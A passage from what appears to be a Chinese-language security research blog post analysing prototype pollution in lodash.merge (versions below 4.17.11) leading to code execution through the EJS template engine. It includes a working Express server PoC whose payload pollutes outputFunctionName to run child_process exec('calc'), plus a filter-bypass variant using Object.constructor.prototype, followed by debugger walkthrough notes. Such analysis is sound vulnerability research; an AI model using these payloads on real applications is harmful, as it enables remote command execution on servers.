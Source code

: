 与上面相同，发送poc后刷新页面即可弹计算器

![image-20211216164651808](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211216164651808.png)

#### lodash.merge

- 版本要求：lodash < 4.17.11; 4.17.4之后过滤关键词`__proto__`，可用`Object.constructor.prototype`进行绕过

server.js

```js
var express = require('express');
var lodash = require('lodash');
var ejs = require('ejs');

var app = express();
//设置模板的位置与种类
app.set('views', __dirname);
app.set('views engine','ejs');

//对原型进行污染 __proto__.xxx
var malicious_payload = '{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require(\'child_process\').exec(\'calc\');var __tmp2"}}';

// 4.17.4之后版本进行`__proto__`过滤 使用Object.constructor.prototype绕过
// var malicious_payload = '{"Object":{"constructor":{"prototype":{"outputFunctionName": "_tmp1;global.process.mainModule.constructor._load(\'child_process\').execSync(\'calc\');var __tmp2"}}}}'

lodash.merge({}, JSON.parse(malicious_payload));

//进行渲染
app.get('/', function (req, res) {
    res.render ("index.ejs",{
        message: 'whoami test'
    });
});

var server = app.listen(8000, function () {

    var host = server.address().address
    var port = server.address().port

    console.log("应用实例，访问地址为 http://%s:%s", host, port)
});
```

![image-20211216193535948](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211216193535948.png)

在第12行下断点

![image-20211216194516601](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211216194516601.png)

可以看到在它执行结束之后Object的原型链上多了一个`outputFunctionName`，我们先跟进调用看看后面接入ejs的部分是怎么执行的；在16行打断点，刷新后看render方法
